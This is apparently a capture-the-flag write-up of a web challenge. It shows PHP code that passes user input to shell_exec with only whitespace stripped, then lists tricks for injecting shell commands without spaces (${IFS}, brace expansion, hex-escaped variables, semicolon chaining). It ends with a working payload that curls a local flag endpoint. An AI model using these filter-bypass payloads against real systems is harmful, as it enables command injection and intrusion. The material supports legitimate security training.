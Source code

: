 # Cyber Santa 2021 – Gadget Santa

- **Category:** Web Day 3
- **Points:** 300
- **Difficulty:** ★☆☆☆

## Challenge

We are given a website, along with its source code as usual. It seems to be a shell container where commands can be injected through the URL parameter of `command`.

![Website](./images/1.png)

However any commands with spaces seem to fail immediately. Inspection of the source code in the `MonitorModel.php` file reveals that commands with spaces will be sanitized through a regex expression.

```
<?php
class MonitorModel
{
    public function __construct($command)
    {
        $this->command = $this->sanitize($command);
    }

    public function sanitize($command)
    {
        $command = preg_replace('/\s+/', '', $command);
        return $command;
    }

    public function getOutput()
    {
        print($this->command)
        print('over here')
        return shell_exec('/santa_mon.sh '.$this->command);
    }
}
```

The flag was also found in the `ups_manger.py` file

```
def http_server(host_port,content_type="application/json"):
	class CustomHandler(SimpleHTTPRequestHandler):
		def do_GET(self) -> None:
			def resp_ok():
				self.send_response(200)
				self.send_header("Content-type", content_type)
				self.end_headers()
			if self.path == '/':
				resp_ok()
				if check_service():
					self.wfile.write(get_json({'status': 'running'}))
				else:
					self.wfile.write(get_json({'status': 'not running'}))
				return
			elif self.path == '/restart':
				restart_service()
				resp_ok()
				self.wfile.write(get_json({'status': 'service restarted successfully'}))
				return
			elif self.path == '/get_flag':
				resp_ok()
				self.wfile.write(get_json({'status': 'HTB{f4k3_fl4g_f0r_t3st1ng}'}))
				return
			self.send_error(404, '404 not found')
		def log_message(self, format, *args):
			pass
	class _TCPServer(TCPServer):
		allow_reuse_address = True
	httpd = _TCPServer(host_port, CustomHandler)
	httpd.serve_forever()
```

In order to get the flag, we need to somehow query the `/get_flag` path with a command that has no spaces.

## Solution

As usual with every challenge, I turned to Google immediately, and discovered this [site](https://www.betterhacker.com/2016/10/command-injection-without-spaces.html) and this [Stack Overflow Post](https://unix.stackexchange.com/questions/351331/how-to-send-a-command-with-arguments-without-spaces) that had a collection of different ways to send commands without spaces.

The options I found online were

1. Using curly braces and commas: `{echo,hello,world}`
2. Defining bash variables using bytes and echoing it: `CMD=$'\x20a\x20b\x20c';echo$CMD`
3. Using the \${IFS} separator, default value of IFS is space, tab, newline: `cat${IFS}file.txt`
   - For single space: ${IFS%??} can be used
4. Chaining commands together with semicolons : `ls;id;whoami;`

Quite a few of these didn't work by themselves but by chaining a few of them together in this payload

```
id${IFS};curl${IFS}localhost:3000/get_flag;
```

netted me the flag

```
{"status": "HTB{54nt4_i5_th3_r34l_r3d_t34m3r}"}
```

## Thoughts

- This challenge was useful for me to collate together a bunch of payloads that can bypass simple sanitization of shell commands in the future
